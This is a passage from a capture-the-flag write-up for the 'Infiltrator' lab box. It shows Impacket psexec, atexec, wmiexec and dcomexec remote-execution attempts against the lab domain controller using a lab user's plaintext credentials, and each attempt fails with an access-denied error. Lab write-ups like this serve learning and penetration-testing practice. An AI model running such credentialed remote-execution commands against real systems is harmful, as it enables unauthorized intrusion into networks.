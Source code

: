 **Failed**: `WinRMAuthorizationError` - user likely not allowed to connect via WinRM

##### 3.1.4.2. [psexec](https://wadcoms.github.io/wadcoms/Impacket-PsExec/)

```console
root@kali:~# impacket-psexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on dc01.infiltrator.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

**Failed**: no writable shares - user likely has no permissions on the "executable" shares

##### 3.1.4.3. [atexec](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/)

```console
root@kali:~# impacket-atexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \ZqohwQMn
[-] rpc_s_access_denied
```

**Failed**: `rpc_s_access_denied` - user likely has no privilege

##### 3.1.4.4. [wmiexec](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)

```console
root@kali:~# impacket-wmiexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] WMI Session Error: code: 0x80041003 - WBEM_E_ACCESS_DENIED
```

**Failed**: `WBEM_E_ACCESS_DENIED` - no permissions, again

##### 3.1.4.5. [dcomexec](https://wadcoms.github.io/wadcoms/Impacket-DCOMExec/)

```console
root@kali:~# impacket-dcomexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] DCOM SessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
```

**Failed**: `E_ACCESSDENIED` - no permissions, again²
